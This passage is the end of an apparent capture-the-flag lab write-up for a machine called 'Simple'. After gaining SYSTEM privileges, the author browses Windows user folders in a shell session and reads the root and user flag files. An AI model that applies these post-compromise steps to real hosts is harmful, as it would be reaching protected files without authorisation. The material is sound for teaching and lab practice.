The elevation chain is fully complete. We bypassed local application boundary controls and successfully claimed the ultimate execution layer: **`nt authority\system`**.

Operating under a global system token context allows us to completely ignore internal user folder isolation parameters. I navigated straight through the user directory clusters to claim both flag variables.
```
C:\Windows\temp>cd c:\users\
cd c:\users\

c:\Users>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 26CD-AE41

 Directorio de c:\Users

07/11/2026  22:43    <DIR>          .
07/11/2026  22:43    <DIR>          ..
08/10/2023  20:46    <DIR>          .NET v4.5
08/10/2023  20:46    <DIR>          .NET v4.5 Classic
08/10/2023  23:11    <DIR>          Administrador
07/11/2026  22:43    <DIR>          bogo
08/10/2023  23:07    <DIR>          marcos
26/09/2023  14:11    <DIR>          Public
               0 archivos              0 bytes
               8 dirs  45.607.424.000 bytes libres

c:\Users>cd Administrador
cd Administrador

c:\Users\Administrador>cd desktop
cd desktop

c:\Users\Administrador\Desktop>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 26CD-AE41

 Directorio de c:\Users\Administrador\Desktop

26/09/2023  14:11    <DIR>          .
26/09/2023  14:11    <DIR>          ..
08/10/2023  23:07                66 root.txt
               1 archivos             66 bytes
               2 dirs  45.607.424.000 bytes libres

c:\Users\Administrador\Desktop>type root.txt
type root.txt
SIMPLE{ROOT-FLAG}
c:\Users\Administrador\Desktop>cd c:\users
cd c:\users

c:\Users>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 26CD-AE41

 Directorio de c:\Users

07/11/2026  22:43    <DIR>          .
07/11/2026  22:43    <DIR>          ..
08/10/2023  20:46    <DIR>          .NET v4.5
08/10/2023  20:46    <DIR>          .NET v4.5 Classic
08/10/2023  23:11    <DIR>          Administrador
07/11/2026  22:43    <DIR>          bogo
08/10/2023  23:07    <DIR>          marcos
26/09/2023  14:11    <DIR>          Public
               0 archivos              0 bytes
               8 dirs  45.606.539.264 bytes libres

c:\Users>cd marcos\desktop
cd marcos\desktop

c:\Users\marcos\Desktop>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 26CD-AE41

 Directorio de c:\Users\marcos\Desktop

08/10/2023  23:09    <DIR>          .
08/10/2023  23:09    <DIR>          ..
08/10/2023  23:09                44 user.txt
               1 archivos             44 bytes
               2 dirs  45.606.539.264 bytes libres

c:\Users\marcos\Desktop>type user.txt   
type user.txt
SIMPLE{USER-FLAG}

```
Both flags captured. The Simple box has been fully compromised, shifting from basic credential sprays to internal log auditing, web root deployment, and memory token impersonation.

The compromise of **Simple** serves as a great reminder that password security applies to all records on a server, including log files.